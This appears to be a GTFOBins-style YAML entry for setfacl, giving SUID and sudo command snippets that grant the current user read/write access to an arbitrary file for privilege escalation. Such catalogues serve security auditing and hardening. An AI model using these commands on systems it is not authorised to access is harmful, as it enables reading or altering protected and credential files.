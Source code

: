 ```yaml
---
description: This can be run with elevated privileges to change ownership and then read, write, or execute a file.
functions:
  suid:
    - code: |
        LFILE=file_to_change
        ./setfacl -m u:$(id -un):rw $LFILE
  sudo:
    - code: |
        LFILE=file_to_change
        sudo setfacl -m -u:$(id -un):rw $LFILE
---
```

